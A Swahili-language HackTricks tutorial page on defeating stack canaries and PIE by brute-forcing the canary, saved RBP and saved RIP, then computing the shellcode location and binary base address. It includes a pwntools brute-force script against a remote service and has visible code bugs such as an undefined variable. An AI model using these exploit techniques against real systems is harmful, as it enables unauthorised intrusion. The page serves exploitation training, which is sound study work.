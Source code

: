 # Anwani za BF kwenye Stack

{% hint style="success" %}
Jifunze na zoezi la AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na zoezi la GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

**Ikiwa unakabiliana na binary iliyolindwa na canary na PIE (Position Independent Executable) labda unahitaji kupata njia ya kuzipuuza.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Tambua kwamba **`checksec`** inaweza isigundue kwamba binary inalindwa na canary ikiwa ilikompiliwa kistatiki na haiwezi kutambua kazi.\
Hata hivyo, unaweza kugundua hii kwa mikono ikiwa unagundua kwamba thamani imesave kwenye stack mwanzoni mwa wito wa kazi na thamani hii inachunguzwa kabla ya kutoka.
{% endhint %}

## Anwani za Brute-Force

Ili **kuzipuuza PIE** unahitaji **kuvuja anwani fulani**. Na ikiwa binary haivuji anwani yoyote, bora kufanya ni **kuzipuuza RBP na RIP zilizohifadhiwa kwenye stack** katika kazi yenye kasoro.\
Kwa mfano, ikiwa binary inalindwa kwa kutumia **canary** na **PIE**, unaweza kuanza kuzipuuza canary, kisha **Byte zinazofuata** 8 (x64) zitakuwa **RBP** iliyohifadhiwa na **Byte zinazofuata** 8 zitakuwa **RIP** iliyohifadhiwa.

{% hint style="success" %}
Inatarajiwa kwamba anwani ya kurudi kwenye stack inamilikiwa na msimbo wa binary kuu, ambao, ikiwa kasoro iko kwenye msimbo wa binary, kawaida ndivyo itakavyokuwa.
{% endhint %}

Kuzipuuza RBP na RIP kutoka kwa binary unaweza kugundua kwamba byte sahihi iliyoguessed ni sahihi ikiwa programu inatoa kitu au tu haivunjiki. **Kazi ile ile** kama iliyotolewa kwa ajili ya kuzipuuza canary inaweza kutumika kuzipuuza RBP na RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Kitu cha mwisho unachohitaji kushinda PIE ni kuhesabu **anwani muhimu kutoka kwa anwani zilizovuja**: **RBP** na **RIP**.

Kutoka kwa **RBP** unaweza kuhesabu **mahali ambapo unaiandika shel yako kwenye steki**. Hii inaweza kuwa muhimu sana kujua mahali utakapoiandika string _"/bin/sh\x00"_ ndani ya steki. Ili kuhesabu umbali kati ya RBP iliyovuja na shel yako, unaweza tu kuweka **kituo cha kusitisha baada ya kuvuja kwa RBP** na kuangalia **mahali shel yako ilipo**, kisha, unaweza kuhesabu umbali kati ya shel yako na RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Kutoka kwa **RIP** unaweza kuhesabu **anwani ya msingi ya faili ya PIE** ambayo ndio utahitaji kuunda **mtandao wa ROP halali**.\
Ili kuhesabu anwani ya msingi fanya `objdump -d vunbinary` na angalia anwani za hivi karibuni zilizochambuliwa:

![](<../../../.gitbook/assets/image (479).png>)

Katika mfano huo unaweza kuona kwamba **Byte 1 na nusu tu inahitajika** kutambua msimbo wote, basi, anwani ya msingi katika hali hii itakuwa **RIP iliyovuja lakini ikimalizika kwa "000"**. Kwa mfano ikiwa ulivuja `0x562002970ecf` anwani ya msingi itakuwa `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
## Maboresho

Kulingana na [**baadhi ya uchunguzi kutoka kwenye chapisho hili**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), inawezekana kwamba wakati data ya RBP na RIP inavuja, server haitaanguka na baadhi ya data ambazo sio sahihi na script ya BF itadhani amepata zile sahihi. Hii ni kwa sababu inawezekana kwamba **baadhi ya anwani hazitavunja hata kama sio zile sahihi kabisa**.

Kulingana na chapisho hilo la blogu, inapendekezwa kuongeza kuchelewesha fupi kati ya maombi kwa server inayoingizwa.
